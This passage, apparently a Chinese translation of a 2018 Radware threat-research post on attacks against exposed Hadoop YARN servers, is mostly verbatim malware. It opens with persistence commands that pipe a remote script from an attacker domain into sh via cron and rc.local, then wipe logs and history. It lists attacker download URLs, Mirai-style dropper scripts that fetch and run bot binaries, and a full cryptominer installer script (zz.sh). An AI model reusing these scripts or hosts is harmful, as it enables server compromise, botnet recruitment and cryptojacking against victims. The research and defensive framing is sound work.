echo -e '#!/bin/sh\n\nwget --quiet http://r00ts.truthdealmodz[.]pw/.o -O- 3>/dev/null|sh>/dev/null 2>&1' > /etc/cron.monthly/0;chmod 777 /etc/cron.monthly/0;

echo -e '#!/bin/sh\n\nwget --quiet http://r00ts.truthdealmodz[.]pw/.o -O- 3>/dev/null|sh>/dev/null 2>&1' > /etc/rc.local;chmod +x /etc/rc.local;
head -c -384 /var/log/wtmp > .wtmp; mv .wtmp /var/log/wtmp; chmod 664 /var/log/wtmp; chown root:utmp /var/log/wtmp; chmod 777 /etc/cron.*/* ;
history -c;
unset history;history -w*
```

# *恶意软件动物园*

*表(*1)中的 Hadoop YARN 漏洞提供了一个真实的 Linux 物联网恶意软件动物园——大多数二进制文件都与 Mirai 未来组合相关——这并不奇怪…*

*仍处于活动状态的链接:*

```
*[http://167.88.161[.]40/yarn.x86](http://167.88.161.40/yarn.x86)
 2eab746dea07b3b27fb6582ee100a7ee732d7980012652da6d705f4e90c4196b yarn.x86 
[http://185.244.25[.]150/bins/otaku.x86](http://185.244.25.150/bins/otaku.x86)
 34ee8efb22814660dd7d2a4d1219b73fd1a2c4ba63ef99020f135980551419b5 otaku.x86 
http://185.244.25[.]163/8×868
 a5beb685f7847009485b94cc7f91eb16254ccd681c60cec5928f5a22c23acb55 8×868 
[http://185.244.25[.]222/x86](http://185.244.25.222/x86)
 4b18997cc8fa26092d3b6de7fce637a4bc80a9c35997248035208144108c6ebd x86 
[http://185.244.25[.]251/x86](http://185.244.25.251/x86)
 33f54d0afccfdc0a8b0428d7a1fca20079fe760b21e3750e31a8cba1b862e104 x86 
[http://167.99.51[.]231/x86](http://167.99.51.231/x86)
 83777b500163259e9e1b7a4801b5c3ad48708511b1c2b7573e344985011396c6 x86 
[http://46.17.47[.]198/bins/kowai.x86](http://46.17.47.198/bins/kowai.x86)
 1a447b4e33474e693517a5a1b26e18c5a0dc8de3e92b57f2402f098218327c60 kowai.x86http://94.177.231[.]48/sh
$ cat sh
#!/bin/sh

binarys="mips mpsl arm arm5 arm6 arm7 sh4 ppc x86 arc"
server_ip="94.177.231.48"
binname="miori"
execname="loliloli"

for arch in $binarys
do
    cd /tmp
    wget http://$server_ip/$binname.$arch -O $execname
    #tftp -g -l $execname -r $binname.$arch $server_ip
    chmod 777 $execname
    ./$execname
    rm -rf $execname
done
$ wget http://94.177.231[.]48/miori.x86 

8e7e65105dfa629d695f63c41378f9f10112641a8f5bb9987b1a69b2c7336254  miori.x86http://46.29.165.143/fearless.sh
#!/bin/bash
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://46.29.165[.]143/fearlessntpd; chmod +x fearlessntpd; ./fearlessntpd; rm -rf fearlessntpd
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://46.29.165[.]143/fearlesssshd; chmod +x fearlesssshd; ./fearlesssshd; rm -rf fearlesssshd
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://46.29.165[.]143/fearlessopenssh; chmod +x fearlessopenssh; ./fearlessopenssh; rm -rf fearlessopenssh
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://46.29.165[.]143/fearlessbash; chmod +x fearlessbash; ./fearlessbash; rm -rf fearlessbash
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://46.29.165[.]143/fearlesstftp; chmod +x fearlesstftp; ./fearlesstftp; rm -rf fearlesstftp
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://46.29.165[.]143/fearlesswget; chmod +x fearlesswget; ./fearlesswget; rm -rf fearlesswget
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://46.29.165[.]143/fearlesscron; chmod +x fearlesscron; ./fearlesscron; rm -rf fearlesscron
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://46.29.165[.]143/fearlessftp; chmod +x fearlessftp; ./fearlessftp; rm -rf fearlessftp
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://46.29.165[.]143/fearlesspftp; chmod +x fearlesspftp; ./fearlesspftp; rm -rf fearlesspftp
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://46.29.165[.]143/fearlesssh; chmod +x fearlesssh; ./fearlesssh; rm -rf fearlesssh
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://46.29.165[.]143/fearlessshit; chmod +x fearlessshit; ./fearlessshit; rm -rf fearlessshit
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://46.29.165[.]143/fearlessapache2; chmod +x fearlessapache2; ./fearlessapache2; rm -rf fearlessapache2
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://46.29.165[.]143/fearlesstelnetd; chmod +x fearlesstelnetd; ./fearlesstelnetd; rm -rf fearlesstelnetd

$ file fearlessapache2 
fearlessapache2: ELF 32-bit LSB executable, ARM, version 1 (ARM), statically linked, stripped

47ace06c5f36937a6d5f4369ea1980a91f570a6d9d9b144e7f5b3f4006316f57  fearlessapache2*
```

*截至本文撰写时，未激活的链接:*

```
*http://185.244.25[.]153/YSDKOP.x86 
http://68.183.96[.]48/bins/hoho.x86 
http://cnc.junoland[.]xyz/x86hua
http://194.147.35[.]63/bins/Kuran.x86
http://46.29.165[.]33/bins/kowai.x86 
http://167.88.161[.]40/bins/mydick 
http://188.138.100[.]8/ankit/jno.x86
http://67.205.128[.]131/oxy.x86
http://80.211.94[.]16/Nurasu.x86_64; 
http://46.36.37[.]121/weed.sh
http://142.93.152[.]247/8UsA.sh*
```

# *受损的服务器*

*了解暴露的服务器后，我们可以通过将服务器 IP 与我们的全球欺骗网络活动相关联，来评估受到危害的那组服务器的活动。暴露的服务器列表中只有不到 5%的服务器与我们的欺骗网络中的服务器重叠，并且已经被发现执行恶意活动。然而，这 5%并不是全貌，因为有令人信服的证据表明行为者积极滥用服务器来挖掘加密货币，并且因为没有扫描或利用活动，这些服务器不会出现在我们的欺骗网络中。来自潜在的 1065 的受损服务器的数量仍然是未知的，但可以肯定地说，在某个时候，所有这些服务器都将成为或已经成为恶意活动的受害者。*

*下图显示了已知受损服务器的每个端口的活动。这些活动以 TCP 端口 23、2323、22 和 2222 为目标，这些端口代表了通过 telnet 和 SSH 凭据暴力利用的一般物联网漏洞。另一个臭名昭著的端口 5555 因 TR069 和 ADB 利用物联网易受攻击的设备而闻名。在过去 7 天中，我们发现针对端口 23 的扫描活动有所增加。*

**

*这种类似于 Mirai 未来组合的端口 23 扫描行为主要源自一台服务器，在过去 7 天内可以进行超过 35，000 次扫描。其他受损的服务器在有限的时间范围内适用于几个事件。*

**

*就受攻击服务器的区域目标而言，德国受到的攻击最多。*

**

# *当…不是如果*

*虽然有明确的证据表明支持 DDoS 的僵尸网络试图危害 Hadoop YARN 暴露的服务器，但没有直接的证据表明被危害的服务器进行了 DDoS 活动。然而，这并没有消除 DDoS 攻击的可能性和潜力。攻击面只有 1065 台服务器多一点。与可以在数十万台设备上运行的物联网僵尸网络相比，这似乎威胁不大。然而，与物联网设备相比，Hadoop(以及一般的云服务器)提供了更好的连接性和更多的计算资源；僵尸网络中只有少数服务器会对在线业务造成严重破坏。*

*对于那些运行 Hadoop 集群的人来说，公开的 YARN 服务可能会在某个时候被利用和滥用于密码挖掘。除了影响稳定性和性能，具有弹性计算资源的云服务器还会因为资源利用率的激增而对受害者产生经济影响。*

*请注意，您无法逃脱公开暴露的服务，这不是一个如果的问题，而是一个您的服务何时会被损害和滥用的问题。在今天的互联网中，云服务器可以在几分钟内执行完整的互联网端口扫描，而应用程序漏洞扫描不到一天。对于那些还不相信的人，请访问一个(物联网)搜索引擎，如 [https://shodan.io](https://shodan.io/) 或 [https://fofa.so，](https://fofa.so/)，它们每天都在扫描和搜索联网设备。只需在这些搜索引擎的搜索栏中键入“jetty ”,就能见证有多少服务器被编入索引并在几秒钟内被轻松发现。*

# *(*1) Hadoop 线程漏洞*

******

# *(*2) zz.sh 脚本*

```
*#!/bin/bash
pkill -f donate
pkill -f proxkekman
pkill -f 158.69.133.18
pkill -f 192.99.142.246
pkill -f test.conf
pkill -f /var/tmp/apple
pkill -f /var/tmp/big
pkill -f /var/tmp/small
pkill -f /var/tmp/cat
pkill -f /var/tmp/dog
pkill -f /var/tmp/mysql
pkill -f /var/tmp/sishen
pkill -f ubyx
pkill -f /var/tmp/mysql
rm -rf /var/tmp/mysql
ps ax | grep java.conf | grep bin | awk '{print $1}' | xargs kill -9
ps ax|grep "./noda\|./manager"|grep sh|grep -v grep | awk '{print $1}' | xargs kill -9
ps ax|grep "./no1"|grep -v grep | awk '{print $1}' | xargs kill -9
ps ax|grep "./uiiu"|grep -v grep | awk '{print $1}' | xargs kill -9
ps ax|grep "./noss"|grep -v grep | awk '{print $1}' | xargs kill -9
ps ax|grep "8220"|grep -v grep | awk '{print $1}' | xargs kill -9
pkill -f cpu.c
pkill -f tes.conf
pkill -f psping
ps ax | grep cs.c | grep bin | awk '{print $1}' | xargs kill -9
ps ax | grep -- "-c cs" | awk '{print $1}' | xargs kill -9
ps ax | grep -- "-c pcp" | awk '{print $1}' | xargs kill -9
ps ax | grep -- "-c omo" | awk '{print $1}' | xargs kill -9
pkill -f /var/tmp/java-c
pkill -f pscf
pkill -f cryptonight
pkill -f sustes
pkill -f xmrig
pkill -f xmr-stak
pkill -f suppoie
ps ax | grep "config.json -t" | grep -v grep | awk '{print $1}' | xargs kill -9
ps aux | grep "/lib/systemd/systemd" | awk '{if($3>20.0) print $2}' | xargs kill -9
ps ax | grep 'wc.conf\|wq.conf\|wm.conf\|wt.conf' | grep -v grep | grep 'ppl\|pscf\|ppc\|ppp' | awk '{print $1}' | xargs kill -9
rm -rf /var/tmp/pscf*
rm -rf /tmp/pscf*
pkill -f ririg
rm -rf /var/tmp/ntpd
pkill -f /var/tmp/ntpd
rm -rf /var/tmp/ntp
pkill -f /var/tmp/ntp
rm -rf /var/tmp/qq
rm -rf /var/tmp/qq1
pkill -f /var/tmp/qq
rm -rf /tmp/qq
rm -rf /tmp/qq1
pkill -f /tmp/qq
pkill -f /var/tmp/aa
rm -rf /var/tmp/aa
rm -rf /var/tmp/gg
rm -rf /var/tmp/gg1
pkill -f gg1.conf
rm -rf /var/tmp/hh
rm -rf /var/tmp/hh1
pkill -f hh1.conf
pkill -f apaqi
rm -rf /var/tmp/apaqi
pkill -f dajiba
rm -rf /var/tmp/dajiba

pkill -f /var/tmp/look
rm -rf /var/tmp/look
pkill -f /var/tmp/nginx
rm -rf /var/tmp/nginx
rm -rf /var/tmp/dd
rm -rf /var/tmp/dd1
rm -rf /var/tmp/apple
pkill -f dd1.conf
pkill -f kkk1.conf
pkill -f ttt1.conf
pkill -f ooo1.conf
pkill -f ppp1.conf
pkill -f lll1.conf
pkill -f yyy1.conf
pkill -f 1111.conf
pkill -f 2221.conf
pkill -f dk1.conf
pkill -f kd1.conf
pkill -f mao1.conf
pkill -f YB1.conf
pkill -f 2Ri1.conf
pkill -f 3Gu1.conf

pkill -f crant
DIR="/tmp"
if [ -a "/tmp/java" ]
then
    if [ -w "/tmp/java" ] && [ ! -d "/tmp/java" ]
    then
        if [ -x "$(command -v md5sum)" ]
        then
            sum=$(md5sum /tmp/java | awk '{ print $1 }')
            echo $sum
            case $sum in
                71849cde30470851d1b2342ba5a5136b | b00f4bbd82d2f5ec7c8152625684f853)
                    echo "Java OK"
                ;;
                *)
                    echo "Java wrong"
                    rm -rf /tmp/java
                    pkill -f w.conf
                    sleep 4
                ;;
            esac
        fi
        echo "P OK"
    else
        DIR=$(mktemp -d)/tmp
        mkdir $DIR
        echo "T DIR $DIR"
    fi
else
    if [ -d "/var/tmp" ]
    then
        DIR="/var/tmp"
    fi
    echo "P NOT EXISTS"
fi
if [ -d "/tmp/java" ]
then
    DIR=$(mktemp -d)/tmp
    mkdir $DIR
    echo "T DIR $DIR"
fi
WGET="wget -O"
if [ -s /usr/bin/curl ];
then
    WGET="curl -o";
fi
if [ -s /usr/bin/wget ];
then
    WGET="wget -O";
fi

downloadIfNeed()
{
    if [ -x "$(command -v md5sum)" ]
    then
        if [ ! -f $DIR/java ]; then
            echo "File not found!"
            download
        fi
        sum=$(md5sum $DIR/java | awk '{ print $1 }')
        echo $sum
        case $sum in
            71849cde30470851d1b2342ba5a5136b | b00f4bbd82d2f5ec7c8152625684f853)
                echo "Java OK"
            ;;
            *)
                echo "Java wrong"
                sizeBefore=$(du $DIR/java)
                if [ -s /usr/bin/curl ];
                then
                    WGET="curl -k -o ";
                fi
                if [ -s /usr/bin/wget ];
                then
                    WGET="wget --no-check-certificate -O ";
                fi
                echo "" > $DIR/tmp.txt
                rm -rf $DIR/java
                download
            ;;
        esac
    else
        echo "No md5sum"
        download
    fi
}

download() {
    if [ -x "$(command -v md5sum)" ]
    then
        sum=$(md5sum $DIR/pscf3 | awk '{ print $1 }')
        echo $sum
        case $sum in
            71849cde30470851d1b2342ba5a5136b | b00f4bbd82d2f5ec7c8152625684f853)
                echo "Java OK"
                cp $DIR/pscf3 $DIR/java
            ;;
            *)
                echo "Java wrong"
                download2
            ;;
        esac
    else
        echo "No md5sum"
        download2
    fi
}

download2() {
    $WGET $DIR/java https://bitbucket.org/zrundr42/mygit/raw/master/x_64

    if [ -x "$(command -v md5sum)" ]
    then
        sum=$(md5sum $DIR/java | awk '{ print $1 }')
        echo $sum
        case $sum in
            71849cde30470851d1b2342ba5a5136b | b00f4bbd82d2f5ec7c8152625684f853)
                echo "Java OK"
                cp $DIR/java $DIR/pscf3
            ;;
            *)
                echo "Java wrong"
            ;;
        esac
    else
        echo "No md5sum"
    fi
}

netstat -antp | grep '158.69.133.20\|192.99.142.249\|202.144.193.110\|192.99.142.225\|192.99.142.246\|46.4.200.177\|192.99.142.250\|46.4.200.179\|192.99.142.251\|46.4.200.178\|159.65.202.177\|185.92.223.190\|222.187.232.9\|78.46.89.102' | grep 'ESTABLISHED' | awk '{print $7}' | sed -e "s/\/.*//g" | xargs kill -9
if [ "$(netstat -ant|grep '158.69.133.20\|192.99.142.249\|202.144.193.110\|192.99.142.225\|192.99.142.246\|46.4.200.177\|192.99.142.250\|46.4.200.179\|192.99.142.251\|46.4.200.178\|159.65.202.177\|185.92.223.190\|222.187.232.9\|78.46.89.102'|grep 'ESTABLISHED'|grep -v grep)" ];
then
    ps axf -o "pid %cpu" | awk '{if($2>=30.0) print $1}' | while read procid
    do
        kill -9 $procid
    done
else
    echo "Running"
fi

if [ ! "$(ps -fe|grep '/tmp/java'|grep 'w.conf'|grep -v grep)" ];
then
    downloadIfNeed
    chmod +x $DIR/java
    $WGET $DIR/w.conf https://bitbucket.org/zrundr42/mygit/raw/master/w.conf
    nohup $DIR/java -c $DIR/w.conf > /dev/null 2>&1 &
    sleep 5
    rm -rf $DIR/w.conf
else
    echo "Running"
fi

if crontab -l | grep -q "46.249.38.186"
then
    echo "Cron exists"
else
    echo "Cron not found"
    LDR="wget -q -O -"
    if [ -s /usr/bin/curl ];
    then
        LDR="curl";
    fi
    if [ -s /usr/bin/wget ];
    then
        LDR="wget -q -O -";
    fi
    (crontab -l 2>/dev/null; echo "* * * * * $LDR http://46.249.38.186/cr.sh | sh > /dev/null 2>&1")| crontab -
fi

pkill -f logo4.jpg
pkill -f logo0.jpg
pkill -f logo9.jpg
pkill -f jvs
pkill -f javs
pkill -f 192.99.142.248
rm -rf /tmp/pscd*
rm -rf /var/tmp/pscd*
crontab -l | sed '/202.144.193.167/d' | crontab -
crontab -l | sed '/192.99.142.232/d' | crontab -
crontab -l | sed '/8220/d' | crontab -
crontab -l | sed '/192.99.142.226/d' | crontab -
crontab -l | sed '/192.99.142.248/d' | crontab -
crontab -l | sed '/45.77.86.208/d' | crontab -
crontab -l | sed '/144.202.8.151/d' | crontab -
crontab -l | sed '/192.99.55.69/d' | crontab -
crontab -l | sed '/logo4/d' | crontab -
crontab -l | sed '/logo9/d' | crontab -
crontab -l | sed '/logo0/d' | crontab -
crontab -l | sed '/logo/d' | crontab -
crontab -l | sed '/tor2web/d' | crontab -
crontab -l | sed '/jpg/d' | crontab -
crontab -l | sed '/png/d' | crontab -
crontab -l | sed '/tmp/d' | crontab -*
```

**原载于 2018 年 11 月 15 日*[*blog.radware.com*](https://blog.radware.com/security/2018/11/hadoop-yarn-an-assessment-of-the-attack-surface-and-its-exploits/)*。**